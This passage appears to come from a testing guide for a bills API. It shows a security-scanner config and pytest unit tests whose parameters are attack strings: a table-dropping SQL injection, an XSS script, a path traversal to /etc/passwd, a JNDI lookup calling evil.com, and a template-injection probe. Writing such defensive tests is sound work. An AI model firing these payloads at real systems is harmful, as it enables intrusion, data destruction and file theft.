 ```yaml
    
    active_scan:
      - sql_injection: true
      - xss: true
      - csrf: true
      - xxe: true
      - command_injection: true
      
    passive_scan:
      - information_disclosure: true
      - weak_authentication: true
      - sensitive_data_exposure: true
      
    thresholds:
      high: 0
      medium: 5
      low: 10
```

#### Security Unit Tests
```python
class TestSecurityValidation:
    """Security-focused unit tests"""
    
    @pytest.mark.parametrize("malicious_input", [
        "'; DROP TABLE bills; --",
        "<script>alert('XSS')</script>",
        "../../etc/passwd",
        "${jndi:ldap://evil.com/a}",
        "{{7*7}}",  # Template injection
    ])
    def test_sql_injection_prevention(self, api_client, malicious_input):
        """Test SQL injection prevention"""
        response = api_client.get(f"/api/bills?search={malicious_input}")
        assert response.status_code in [200, 400]
        # Verify no actual SQL execution
        assert "error" not in response.json()
        
    def test_rate_limiting(self, api_client):
        """Test rate limiting implementation"""
        for i in range(101):
            response = api_client.get("/api/bills")
            if i < 100:
                assert response.status_code == 200
            else:
                assert response.status_code == 429
                assert "Rate limit exceeded" in response.json()["detail"]
```

### 7. Accessibility Testing
